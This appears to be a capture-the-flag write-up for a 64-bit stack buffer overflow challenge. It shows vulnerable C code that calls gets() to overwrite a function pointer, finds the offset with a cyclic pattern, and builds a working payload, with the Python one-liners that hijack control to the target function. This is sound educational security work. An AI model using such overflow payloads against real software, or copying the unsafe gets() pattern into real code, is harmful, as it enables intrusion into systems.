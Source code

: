 # stack2

## inital poke:

``` bash
$ cd /problems/stack2r-64_7_6f3f38bb74a66565cc9342709dadda5e/
$ pwn checksec ./stack2-64 
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      PIE enabled
```

- This is in little endian,
- has PIE enabled

## Code analysis

> [!NOTE]
> Full code is in ./stack2.c

``` C
void recalibration() {
    // need to get here to print the flag
}

int main(int argc, char **argv) {
    volatile int (*fp)(); 
    char buffer[{{buffsize}}]; // <-- the buffer we need to exploit and overflow 

    fp = 0; // <-- function pointer called below.

    gets(buffer); // <-- vulnerable function

    if (fp) { 
        printf("Calling function pointer, jumping to %p\n", fp);
        fp();
    }
}
```

## Figuring out offset

> [!NOTE]
> Aestrix are here for visualization purposes, they are not part of either input or output.

- injecting cyclic 100: `**aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaan**aaa*oaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaa*`
  - buffer is: `**aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaan**`
  - fp is: `*oaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaa*`
- len of cyclic string minus fp is 56; offset is 56

## Getting Recalibration

- we need to know the address of recalibration to inject it into fp

```bash
$ objdump -d /problems/stack2r-64_7_6f3f38bb74a66565cc9342709dadda5e/stack2-64 | grep recalibration

00000000000007aa <recalibration>:
```

- Now, we know the address, and the offset.
- Trying to modify the script with that did not work. Instead, we need to get the address within gdb by doing `p recalibrate` which yields `0x5555555547aa`.
- Plugging this into our script, we get:

``` python
exploit_str = b"A" * offset + p64(0x5555555547aa)
```

## It works! Now what?

- We need to run the file directly, and manually input the exploit string.
- To get the converted string, enter the python3 enviornment and run the code for our exploit stirng crafting. we will get
`b'AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA\xaaGUUUU\x00\x00'`

### Try #1

- Piping the string directly into the binary didnt work, so i tried to manually build it with so
- I converted the hexadecimal directly into a little endian expressed bit string

``` bash
$ python3 -u -c 'print(b"A" * 56 + b"\xaa\x47\x55\x55\x55\x55\x00\x00")' | ./stack2-64 
Calling function pointer, jumping to 0x55476161785c4141
Segmentation fault (core dumped)
```

- Doing this, we get issues with terminal input inputting unwanted ascii characters

### Try #2

```bash
python3 -u -c 'import sys; sys.stdout.buffer.write(b"AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA\xaaGUUUU\x00\x00")' | ./stack2-64
```

this works!!!